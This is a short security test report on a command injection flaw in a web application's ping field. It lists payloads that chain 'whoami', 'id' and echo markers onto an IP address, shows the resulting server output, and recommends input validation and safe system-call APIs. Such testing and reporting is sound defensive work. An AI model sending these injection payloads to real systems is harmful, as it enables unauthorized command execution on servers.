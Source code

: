 # Command Injection Vulnerability Test Report

## 1. Objective

The goal of this test was to evaluate whether the `ping` input field in the target web application is vulnerable to command injection attacks, which could allow an attacker to execute arbitrary system commands on the server.

## 2. Methodology

Various payloads were crafted to attempt command chaining after the `ping` command. These payloads were sent through the web form input:

```bash
127.0.0.1; whoami; echo END
127.0.0.1 && id && echo DONE
127.0.0.1; echo test123
```
The inclusion of echo END and echo DONE served as markers to verify if the injected commands executed.

3. Observed Results
The server executed the ping command as expected.

Additionally, the injected commands executed successfully, as evidenced by the following output fragments:

The current user, e.g., www-data.

The process ID and group information from id.

Custom marker strings such as END and DONE.

Arbitrary strings such as test123.

Example observed output:

PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.038 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.036 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.050 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.053 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3061ms
rtt min/avg/max/mdev = 0.036/0.044/0.053/0.007 ms
www-data
END


![Injection](file:///C:/Users/moham/OneDrive/Desktop/Injection.png)

4. Analysis
The web application concatenates user input directly into system commands without proper sanitization or validation.

This allows arbitrary OS command execution via injection.

Such vulnerabilities pose a critical security risk, enabling attackers to potentially gain full control over the server.

5. Recommendations
Implement strict input validation, allowing only valid IP addresses or hostnames.

Avoid direct concatenation of user inputs into shell commands.

Utilize safe system call APIs that separate command and arguments (e.g., subprocess.run with argument lists in Python).

Apply the principle of least privilege to the web server processes.

Monitor server logs for suspicious command execution attempts.

6. Conclusion
The ping input field in the tested application is vulnerable to command injection. Immediate remediation is necessary to prevent potential exploitation and system compromise.

Report generated by [Mohammad,Mohammadi] on [7/8/2025].